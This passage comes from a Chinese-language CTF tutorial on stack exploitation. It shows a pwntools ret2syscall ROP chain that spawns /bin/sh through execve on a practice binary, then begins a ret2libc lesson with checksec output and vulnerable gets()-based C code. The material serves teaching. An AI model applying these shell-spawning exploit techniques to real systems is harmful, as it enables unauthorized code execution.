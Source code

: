 同时，也找到对应的地址了。

下面就是对应的payload,其中0xb为execve对应的系统调用号。

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

## 题目



# ret2libc

## 原理

ret2libc即控制函数的执行 libc中的函数，通常是返回至某个函数的plt处或者函数的具体位置(即函数对应的got表项的内容)。一般情况下，我们会选择执行system("/bin/sh")，故而此时我们需要知道system函数的地址。

## 例子

我们由简单到难分别给出三个例子。

### 例1

这里我们以bamboofox中ret2libc1为例。首先，我们可以检查一下程序的安全保护

```shell
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为32位，开启了NX保护。下面来看一下程序源代码，确定漏洞位置

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

